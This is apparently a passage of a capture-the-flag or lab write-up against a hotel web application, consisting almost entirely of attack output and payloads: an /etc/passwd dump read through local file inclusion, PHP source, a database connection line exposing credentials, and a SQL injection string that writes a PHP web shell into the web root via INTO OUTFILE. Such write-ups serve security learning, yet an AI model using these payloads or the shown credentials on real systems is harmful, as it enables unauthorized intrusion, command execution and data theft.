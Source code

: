 ```
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
pepper:x:1000:1000:,,,:/home/pepper:/bin/bash
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin

```

- lfi 2

```
/var/www/html/index.php

<?php
          error_reporting(0);
          include("connection.php");
          include("roomobj.php");
          $result=$connection->query("select * from room");
          while($line=mysqli_fetch_array($result)){
            $room=new Room();
            $room->cod=$line['cod'];
            $room->name=$line['name'];
            $room->price=$line['price'];
            $room->star=$line['star'];
            $room->image=$line['image'];
            $room->mini=$line['mini'];

            $room->printRoom();
            }
          ?>
```

- LFI 3

```
/var/www/html/connection.php

$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');

```

- Reverse shell

```
we created it


/room.php?cod=-1 UNION SELECT NULL,1,1,4,"<?php system($_GET[\"cmd\"]); ?>",NULL,NULL into OUTFILE"/var/www/html/shell3.php"
```
